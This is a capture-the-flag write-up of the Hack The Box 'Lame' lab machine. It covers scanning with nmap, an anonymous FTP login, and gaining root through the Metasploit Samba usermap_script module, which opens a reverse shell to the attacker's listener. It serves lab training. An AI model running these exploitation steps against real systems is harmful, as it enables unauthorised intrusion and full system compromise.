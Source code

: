 # Hack The Box - Lame Write-Up

You can access the machine [here](https://www.hackthebox.com/machines/Lame) on Hack The Box.

* **Target IP:** `10.10.10.3`

---

## 🌐 Initial Scanning

1. **Ping the target to check if it's alive:**

   ```bash
   ping 10.10.10.3
   ```

2. **Performed an Nmap scan:**

   ```bash
   nmap -sT -Pn -A 10.10.10.3
   ```

   **Nmap Results:**

   * **FTP (21/tcp):** vsftpd 2.3.4 (Anonymous login allowed)
   * **SSH (22/tcp):** OpenSSH 4.7p1
   * **SMB (139/tcp):** Samba 3.0.20-Debian

---

## 🔎 Enumeration

### FTP

* Anonymous login was allowed:

  ```bash
  ftp 10.10.10.3
  ```

  * Logged in as `ftp`, but no useful files were found.

### SMB

* Samba version `3.0.20` was identified.
* Searched for known vulnerabilities and found it was **vulnerable to remote code execution**.

---

## 💥 Exploitation

* Found a matching exploit on [Exploit-DB](https://www.exploit-db.com/exploits/16320) and confirmed it was available in **Metasploit**.
* Launched Metasploit and used the `usermap_script` exploit:

  ```bash
  use exploit/multi/samba/usermap_script
  set RHOST 10.10.10.3
  set lhost  "htbvpn ip"
  set lport 4444 #any port
  run
  ```
* Gained a **root shell** successfully.

---

## 🏁 Post Exploitation

* Verified root access:

  ```bash
  id
  whoami
  ```

  * Output: `root`

* Retrieved the user and root flag.

---

**Status:** ✅ Root access obtained via Samba RCE vulnerability.

